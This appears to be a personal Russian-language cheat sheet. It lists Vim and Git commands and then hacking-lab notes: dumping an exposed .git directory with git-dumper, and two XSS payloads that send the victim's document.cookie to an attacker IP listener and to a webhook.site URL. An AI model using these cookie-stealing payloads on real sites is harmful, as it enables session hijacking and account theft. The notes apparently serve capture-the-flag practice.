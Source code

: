 # -VIM

# Замена всех слов на другие 
        %s/word1/word2/g         - где g - заменять все всхождения а не только первое 
        dd - удалитьь строку
        shift + y - корирование выделеннной строки
        shift + р - вставка выделеннной строки        
        dd - удалить строку

# Git Hub

#set git config values #Авторизация

        git pull - Стянуть

        git checkout - переключение веток
        
        git config --global user.name "ваше имя"

        git config --global user.email "ваше_мыло@gmail.com"

        git config --global github.user ник

        git config --global github.token your_token_here#Основные команды гит:

        git clone [url]

        git add . - Добавить все (. - Обозначает текущий каталог со всем содержимым)

        git commit -m "mesage" - Создать комит

        git push - отправить

        git rn file_name - удалить из репозитория

        git branch branch_name - создать ветку
        
        git merge - сливает ветку с текущей
        
        git status - получить статус
        
         
# Git-Dumper (сКАЧИВАЕМ .GIT И вытягиваем с него файлы)

https://github.com/arthaud/git-dumper
https://github.com/internetwache/GitTools/tree/master/Dumper        
        
        git-dumper http://cat.htb/.git dump

        https://github.com/internetwache/GitTools/blob/master/Extractor/extractor.sh

        ./extractor.sh dump git-ext
        
# XSS () в уязвимомо месте пишем)
        
        <script>document.location='http://10.10.14.252:4444/?c='+document.cookie;</script>
        и ловим отстук 
        python3 -m http.server 4444


 	https://webhook.site/d7110bf3-8246-4764-ac2e-fef55a74f93a?cmd=10
          <img src=x onerror=fetch('https://webhook.site/8743011e-45c2-41d0-83d0-97cb07de311b/?'+document.cookie) />
        кодируем в HTML
